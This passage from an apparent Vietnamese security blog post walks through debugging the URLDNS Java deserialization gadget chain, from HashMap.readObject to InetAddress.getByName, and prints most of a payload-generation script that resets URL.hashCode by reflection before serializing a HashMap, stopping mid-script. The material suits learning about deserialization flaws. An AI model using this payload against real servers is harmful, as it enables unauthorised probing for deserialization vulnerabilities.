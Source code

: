 ![image]({{ "/assets/img/2025-08-02-Debug-URLDNS/image15.png" | relative_url }})

Đặt bp và nhảy tới URLStreamHandler, ta có thể thấy method hashCode hiện tại đang làm mấy trò như `getProtocol`, `getHostAddress`

![image]({{ "/assets/img/2025-08-02-Debug-URLDNS/image16.png" | relative_url }})

![image]({{ "/assets/img/2025-08-02-Debug-URLDNS/image17.png" | relative_url }})

`getProtocol` không có gì vui, nên mình sẽ nhảy tới thằng method `getHostAddress` thì trong method này lại gọi tới một thằng nữa là `getByName`

![image]({{ "/assets/img/2025-08-02-Debug-URLDNS/image18.png" | relative_url }})

![image]({{ "/assets/img/2025-08-02-Debug-URLDNS/image19.png" | relative_url }})

Theo doc của oracle, thằng method `getByName` sẽ có tác dụng: "Determines the IP address of a host, given the host's name". Tức phương thức này nó sẽ trả về địa chỉ IP tương ứng với tên miền mà chúng ta đưa vào. 

**Mặc dù tài liệu này cũng không chỉ rõ, nhưng thông qua kiến thức mạng máy tính ta có thể ngầm hiểu, để làm được việc nhận vào 1 tên miền rồi return IP đó chắc chắn sẽ phải gửi một yêu cầu tới DNS resolver để hỏi xem IP của thằng host này là gì => Gửi DNS request => Sink ta cần tìm**

---

Tóm lại, để đầy đủ hơn thì flow của chain URLDNS có thể được diễn tả như này. Vì theo mình, putVal và hash trong HashMap gần như là một, chỉ sử dụng hash là chính, hơn hết cách mô tả của ysoserial đã bỏ qua các method ở giữa quá trình nữa
```
HashMap.readObject()
    HashMap.hash()
        URL.hashCode()
            URLStreamHandler.hashCode()
                URLStreamHandler.getHostAddress()
                    InetAddress.getByName()
```

Mặc dù sau khi debug qua code exploit của họ mình cũng hiểu những gì họ đã làm nhưng để ngồi tự code lại script exploit này thì mình cảm thấy hiện tại vẫn chưa làm được =)) Script tạo payload cụ thể là

```java
import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class URLDNS {
    public static void main(String [] args) throws IOException, ClassNotFoundException, IllegalAccessException, NoSuchFieldException {
        HashMap hm = new HashMap();
        URL u = new URL("ur domain here");

        Field field = URL.class.getDeclaredField("hashCode");
        field.setAccessible(true);
        field.set(u, 123);

        hm.put(u, 1);
        field.set(u, -1);
        
        Serialize(hm);
        Deserialize();
    }

    public static void Serialize(Object obj) throws IOException {
```